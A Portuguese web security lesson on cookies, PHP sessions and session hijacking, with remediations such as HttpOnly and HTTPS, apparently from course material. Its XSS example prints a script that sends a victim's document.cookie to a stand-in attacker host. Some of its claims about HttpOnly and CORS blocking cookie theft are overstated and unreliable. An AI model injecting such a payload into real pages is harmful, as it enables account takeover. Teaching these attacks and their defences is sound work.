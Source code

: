 # Cookies e sessões

## Cookies

_Cookies_ são pequenos fragmentos de informação que um site pode armazenar no computador do usuário para uso posterior. Eles são muito úteis uma vez que o protocolo HTTP não apresenta nenhum meio de tornar as informações de uma conexão persistentes. Se dependêssemos apenas das conexões HTTP, seria impossível, por exemplo, usar um carrinho de compras, pois ao trocar para a página de compra as informações seriam perdidas.

Em um site de jogos de navegador, é muito comum que o progresso do jogo seja salvo em _cookies_, no navegador. Os _cookies_ também são bastante usados para armazenar configurações do cliente, como volume do _player_ de música, cor do fundo do site etc.

Geralmente, os navegadores limitam o tamanho que um _cookie_ pode ter para 4KB, além de apagar _cookies_ que já tiveram sua validade vencida.

Exemplo de _cookie_ feito em PHP:

```php
<?php
    // cookies.php

    if (isset($_COOKIE['cookie_teste'])) {
        echo 'Você JÁ passou por aqui!';
    } else {
        echo 'Você NUNCA passou por aqui.'; 
        //Pode ser que você tenha passado há uma hora, mas o servidor não tem como saber
        setcookie('cookie_teste', 'Algum valor...', time() + 3600);
    }
?>
```

Retirado de [https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html](https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html).

Esse código implementa um conceito similar à sessão \(mas ainda não é uma\). Nesse caso, um certo conteúdo pode ser exibido de acordo com o intervalo de tempo desde a última visita. O _cookie_ no código possui uma hora de "vida" \(3600 segundos\).

Um _cookie_ é de acesso limitado ao site que o criou, de modo a garantir que um site mal intencionado não roube os _cookies_ que o site do seu banco armazenou no seu computador por exemplo.

## Sessões

Agora, vamos ao que, no momento, mais nos interessa. **Os** _**cookies**_ **podem ser usados como forma de autenticação**, geralmente armazenando o id de uma **sessão**. É devido às sessões que é possível logar automaticamente em redes sociais - sem precisar entrar com suas credenciais - por muito tempo. Quando o usuário conecta-se, uma sessão é iniciada e o id dessa sessão é salvo em um _cookie_ em seu computador. Este será usado mais tarde para informar ao servidor que o usuário já possui um sessão ativa \(e, portanto, não é preciso entrar com usuário e senha novamente\). A maioria dos sites que implementam esse recurso estabelecem uma data de expiração da sessão, de modo a invalidar o id salvo no _cookie_.

A grande diferença aqui é que **a sessão é armazenada no servidor**, enquanto **o** _**cookie**_ **é armazenado localmente**.

Exemplo de sessão em PHP:

```php
<?php
    // sessions.php

    session_start();

    if (isset($_SESSION['usuario'])) {
        echo "Bem vindo {$_SESSION['usuario']}!";
    } else {
        echo 'Você NUNCA passou por aqui.';
        $_SESSION['usuario'] = 'João';
    }
?>
```

Retirado de [https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html](https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html)

## Falhas

### Uso inocente de _cookies_

É necessário saber como usar os _cookies_. Um exemplo exagerado de mau uso seria um site que lê e salva um _cookie_ `admin=1` para admins e `admin=0` para usuários normais. Na primeira conexão, o _cookie_ não existe, então o site manda o _browser_ salvar `admin=0`. Quando o usuário entra com uma conta de administrador, o site manda o _browser_ mudar o _cookie_ para `admin=1` e o site exibe conteúdo que não era visível. Lindo, não? O problema com essa forma de autenticação é que bastaria o usuário editar o próprio _cookie_ e alterar o conteúdo \(de `admin=0` para `admin=1`\) para se tornar administrador do site, burlando todo o "sistema de segurança".

### Session Hijacking \(Sequestro de Sessão\)

Certo, essa foi uma falha bem besta, mas e se em vez de `admin=0`, o _cookie_ fosse `PHPSESSID=somesessionid` - um _cookie_ identificador de uma sessão legítima?

Basta alguém conseguir ler esse _cookie_ para ter acesso à conta atrelada à sessão. Esse ataque é chamado de **Session Hijacking** \(Sequestro de Sessão\).

Não há como evitar que alguém com acesso físico ao seu computador \(com o navegador aberto na página\) obtenha sua sessão, mas se isso ocorreu ele já tem muito mais "poder" sobre seus dados e sessões.

O que é possível é evitar que pessoas mal intencionadas obtenham sua sessão por meio de outros ataques, como **XSS \(Cross-Site-script\)** e **MITM \(Man-In-The-Middle**\). O segundo ataque caracteriza-se, basicamente, por haver um atacante entrando no meio de uma conexão não encriptada \(HTTP\) e lendo todo o tráfego entre a vítima e o site, incluindo os _cookies_ enviados e a sessão. Já o primeiro ataque resume-se no atacante injetar código na página de alguma forma. Esse código injetado pode, em certos casos, ler, modificar e até enviar o conteúdo dos _cookies_ armazenados para algum outro servidor. \([Ler mais sobre XSS](xss.md)\)

#### Exemplo de Session Hijacking por meio de XSS

```markup
<script type="text/javascript">
    new Image().src="http://www.sitedoatacante.com.br/cookies.php?c="+encodeURI(document.cookie);
</script>
```

Fonte: [http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/](http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/)

Esse script colocado pelo atacante na página adiciona uma "imagem" na página. O navegador acessa o link indicado para baixar a imagem, mas no link é passado o cookie como parâmetro e o atacante usa um _script_ no site dele para salvar o _cookie_ que possui a sessão. Pronto, agora ele pode entrar na conta e fazer o que quiser! É por essa e por outras que alguns sites pedem para o usuário digitar novamente a senha ao alterar informações sensíveis da conta, como e-mail de recuperação e senha.

## Remediações

* Ataque XSS: definir os _cookies_ com a política HTTP-Only \(Leia abaixo\)
* Ataque MITM: criptografar a conexão, usando HTTPS \([Ler Mais](protocolo_https.md)\)

## Extras

### HTTP-ONLY

É sempre bom evitar brechas para ataques XSS, logo uma camada extra de proteção nunca é de mais. Um _cookie_ do tipo HTTP-Only não pode ser modificado por meio de código Javascript, seja ele legítimo \(da página original\) ou injetado.

Dessa forma, é garantido que não haverá qualquer possibilidade de um _cookie_ ser roubado por meio de injeção de código \(XSS\).

Como definir um _cookie_ como HTTP-Only em PHP:

```php
//Template:
//setcookie ($name, $value, $expire, $path, $domain, $secure, $httponly);

//Definindo de fato:
setcookie("TesteCookie", "123456", 0, "/", "example.com", false, true);

//Ou, se preferir definir direto no header da response:
header("Set-Cookie: nome=valor; path=/; httpOnly" );
//É desse jeito que os cookies aparecem para o atacante que observa as respostas do servidor

//Por padrão, ao criar uma sessão no PHP, é criado um cookie usado para
//controlar o acesso do usuário na sessão. Normalmente o cookie é chamado
//PHPSESSID. Na configuração padrão esse cookie não é httpOlny. Para ativar o
//parâmetro httpOnly no cookie de sessão do PHP, setar a diretiva
//session.cookie_httponly no php.ini para true:
session.cookie_httponly = true
```

Fonte: [http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/](http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/)

### CSP e CORS

CSP - Content Security Policy - é um _header_ na conexão HTTP ou HTTPS que indica ao navegador diversas medidas de segurança, visando à blindagem contra XSS.

CORS - Cross-Origin Resource Sharing - é um _header_ que o site passa para o navegador, dizendo com quais sites ele pode se conectar por meio da página atual. Esse recurso evita que XSS consiga enviar o _cookie_ roubado para o site do atacante \(ainda é possível burlar isso com callbacks em alguns casos\).

[Leia mais na aula de XSS](xss.md)

## Leia Mais

[https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html](https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html)  [https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)  [https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)  [https://developer.mozilla.org/en-US/docs/Tools](https://developer.mozilla.org/en-US/docs/Tools)

